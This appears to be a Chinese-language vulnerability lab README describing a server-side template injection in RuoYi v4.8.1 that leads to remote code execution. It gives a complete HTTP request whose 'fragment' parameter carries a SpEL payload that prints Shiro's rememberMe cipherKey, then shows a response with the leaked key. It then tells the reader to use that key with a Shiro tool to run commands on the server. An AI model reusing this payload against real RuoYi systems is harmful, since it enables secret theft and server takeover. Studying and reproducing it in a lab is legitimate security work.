


# ruoyi v4.8.1 SSTI RCE

> [!NOTE]
>
> 容器运行需求：**`1536 MB 运行内存`**、**`1536 MB 储存空间`**

1. 获取密钥（`cipherKey`）

   - 需要先登录 `若依`（`ruoyi`）

   请求包

   ```http
   POST /monitor/cache/getNames HTTP/1.1
   Host: IP:PORT
   Accept: application/json, text/javascript, */*; q=0.01
   Sec-Fetch-Mode: cors
   sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
   X-Requested-With: XMLHttpRequest
   Sec-Fetch-Site: same-origin
   Accept-Language: zh-CN,zh;q=0.9
   X-CSRF-Token: JxbJuBkF+1WQAMT3u9i/sqsagEKm7GsXWD+mebzkmhs=
   Cookie: JSESSIONID={YOUR_COOKIE}; rememberMe={YOUR_COOKIE}
   sec-ch-ua-platform: "Windows"
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
   Content-Type: application/x-www-form-urlencoded
   Sec-Fetch-Dest: empty
   Origin: http://127.0.0.1
   Referer: http://127.0.0.1/monitor/job
   Accept-Encoding: gzip, deflate, br, zstd
   sec-ch-ua-mobile: ?0
   Content-Length: 84
   
   fragment=__|$${#response.getWriter().print(''.getClass().forName('java.util.Base64').getMethod('getEncoder').invoke(null).encodeToString(@securityManager.rememberMeManager.cipherKey))}|__::.x
   ```
   
   响应包
   
   ```http
   HTTP/1.1 200
   Content-Type: text/html; charset=ISO-8859-1
   Content-Language: zh-CN
   Date: Thu, 18 Dec 2025 02:47:05 GMT
   Content-Length: 25
   
   NNFdLW3rgTz3xhkfbjuVzQ==
   ```
   
2. 使用响应包中的密钥（`cipherKey`）和 `shiro` 工具连接到服务器执行命令

------



